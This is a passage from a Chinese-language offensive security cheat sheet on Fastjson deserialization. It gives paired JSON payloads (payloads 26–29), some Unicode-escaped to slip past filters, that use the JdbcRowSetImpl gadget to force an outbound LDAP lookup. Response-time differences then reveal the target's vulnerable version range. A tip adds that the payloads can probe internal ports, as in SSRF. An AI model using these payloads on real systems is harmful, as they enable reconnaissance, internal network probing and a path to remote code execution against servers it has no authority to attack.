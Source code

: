 ### 2.3.2 jndi请求延迟探测法
**Tips：**
可以在`ldap://ip`后面加上端口，这样就可以探测内外端口开放情况了，类似`ssrf`。
#### 2.3.2.1 判断1.2.4<=version<=1.2.47
`payload26`（组合拳）：
```json
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://1.2.3.4/test111","autoCommit":true}}
```
```json
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1/test111","autoCommit":true}}
```
先用第一个，再用第二个，如果第一个响应时间很长，而第二个较短，则说明版本：
![用时21秒](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697705261887-a3d305c7-12f2-4e20-b529-5ec3cfe66d03.png#averageHue=%238cc5e3&clientId=u34d78b8a-7ddf-4&from=paste&height=468&id=u71d1df33&originHeight=468&originWidth=1596&originalType=binary&ratio=1&rotation=0&showTitle=true&size=92406&status=done&style=none&taskId=u861ddf84-fd1a-4815-bff6-928e3eb4c00&title=%E7%94%A8%E6%97%B621%E7%A7%92&width=1596 "用时21秒")
![用时2秒](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697705242447-39abdb46-d477-40f6-809b-7661a5430e49.png#averageHue=%23edf0f4&clientId=u34d78b8a-7ddf-4&from=paste&height=560&id=udfb6489c&originHeight=560&originWidth=1598&originalType=binary&ratio=1&rotation=0&showTitle=true&size=94557&status=done&style=none&taskId=uecea3486-3d52-4a9e-bad9-2609b12c95d&title=%E7%94%A8%E6%97%B62%E7%A7%92&width=1598 "用时2秒")
#### 2.3.2.2 判断1.1.16<=version<=1.2.24
`payload27`（组合拳）：
```json
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```
```json
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```
和`payload26`一样，如果下面的比上面的响应快说明版本处于`1.1.16`和`1.2.24`之间；`1.1.15`我本地测试的时候响应很快但是报错`Duplicate field name "matchColumn_asm_prefix__" with signature "[C" in class file Fastjson_ASM_JdbcRowSetImpl_1`。
#### 2.3.2.3 变种：判断1.1.16<=version<=1.2.11
如果对方用的是`JSON.parseObject`，那么`payload27`还有变种。
`payload28`（组合拳）：
```json
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC", "autoCommit":true}}""}
```
```json
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC", "autoCommit":true}}""}
```
如果下面比上面响应快，说明版本处于`1.1.16`和`1.2.11`之间。
#### 2.3.2.4 判断1.2.28<=version<=1.2.47
`payload29`（组合拳）：
```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```
```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```
如果下面比上面响应快，说明版本处于`1.2.28`和`1.2.47`之间。
#### 2.3.2.5 变种：判断1.2.9<=version<=1.2.11
如果对方用的是`JSON.parseObject`，那么`payload29`还有变种。